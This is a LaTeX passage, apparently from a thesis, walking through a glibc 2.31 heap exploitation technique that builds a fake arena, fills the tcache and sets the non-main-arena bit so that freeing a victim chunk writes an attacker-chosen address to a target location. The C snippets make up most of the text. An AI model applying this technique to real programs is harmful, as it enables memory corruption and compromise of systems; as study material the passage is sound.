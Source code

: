 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\newcommand*\fb{fast bins}
\begin{document}
The next step as we told, The location of fake arena is located at an offset of the heap so we have to allocate fake chunks until reach the fake new arena:
\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* user_mem = malloc(MAX_SIZE);
while((long long)user_mem < new_arena_value){
	 /* ... */ 
	user_mem = malloc(MAX_SIZE);
}
\end{lstlisting}

As we told, this approach use the \fb{} approach , so, we need a chunk in range of the \fb{} chunk , also, a pointer to chunk: 

\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* fastbin_chunk = malloc(0x50)
uint64_t* chunk_ptr = fastbin_chunk - 2
\end{lstlisting}
This file work on \libc{-2.31} which support \tch{} as the first mechanism, so, like fastbin\_dup all we need is to fill up the \tch{} to force the heap manager role back to the \fb{}

\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* tcache_chunks[7];
for(int i = 0; i < 7; i++){
	tcache_chunks[i] = malloc(0x50);
}	
for(int i = 0; i < 7; i++){
	free(tcache_chunks[i]);
}
\end{lstlisting}

The next step is setting up ar\_ptr of heap structure in the fake heap. This field is the first one in the structure and is located at offset 0x00. 

\begin{lstlisting}[language=c,frame=tlrb]
fake_heap_info[0] = (uint64_t) fake_arena
\end{lstlisting}

Now we have to set non\_main\_arena bit in the size field of our victim chunk:

\begin{lstlisting}[language=c,frame=tlrb]
chunk_ptr[1] = 0x60 | 0x4;
\end{lstlisting}

Everything is set up now, all we need is call free function for the victim chunk:

\begin{lstlisting}[language=c,frame=tlrb]
free(fastbin_chunk); 
\end{lstlisting}

\begin{figure}[h!]
  \caption{the address of our fake arena overwritten on target location}
\end{figure}
\end{document}
